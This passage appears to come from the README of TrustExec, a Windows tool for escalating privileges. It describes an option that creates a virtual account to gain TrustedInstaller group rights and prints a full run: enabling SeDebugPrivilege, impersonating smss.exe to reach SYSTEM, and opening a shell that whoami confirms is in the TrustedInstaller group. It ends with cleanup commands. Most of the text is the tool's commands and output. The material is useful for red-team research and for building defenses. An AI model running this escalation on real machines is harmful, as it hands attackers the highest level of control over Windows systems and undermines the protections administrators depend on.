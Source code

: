 If you set `1` for `-t` option, `TrustExec` will try to create `TrustedInstaller` process with virtual account technique.
This technique creates a virtual accound to impersonate as TrustedInstaller group account as a side effect.
If you don't specify domain name (`-d` option), username (`-u`) and RID (`-i` option), this module create a virtual account `DefaultDomain\DefaultUser`.
Default SID for domain is `S-1-5-110` and for user is `S-1-5-110-110`:

```
C:\dev>TrustExec.exe -m exec -s -t 1

[>] Trying to get SYSTEM.
[+] SeDebugPrivilege is enabled successfully.
[>] Trying to impersonate as smss.exe.
[+] SeAssignPrimaryTokenPrivilege is enabled successfully.
[+] SeIncreaseQuotaPrivilege is enabled successfully.
[>] Trying to impersonate thread token.
    |-> Current Thread ID : 2616
[+] Impersonation is successful.
[>] Trying to generate token group information.
[>] Trying to add virtual domain and user.
    |-> Domain   : DefaultDomain (SID : S-1-5-110)
    |-> Username : DefaultUser (SID : S-1-5-110-110)
[+] Added virtual domain and user.
[>] Trying to logon as DefaultDomain\DefaultUser.
[>] Trying to create a token assigned process.

Microsoft Windows [Version 10.0.18362.30]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\dev>whoami /user

USER INFORMATION
----------------

User Name                 SID
========================= =============
defaultdomain\defaultuser S-1-5-110-110

C:\dev>whoami /groups | findstr /i trusted
NT SERVICE\TrustedInstaller            Well-known group S-1-5-80-956008885-3418522649-1831038044-1853292631-2271478464 Enabled by default, Enabled group, Group owner

C:\dev>exit

[>] Exit.
[!] Added virtual domain and user are not removed automatically.
    |-> To remove added virtual user SID   : TrustExec.exe -m sid -r -d DefaultDomain -u DefaultUser
    |-> To remove added virtual domain SID : TrustExec.exe -m sid -r -d DefaultDomain
```
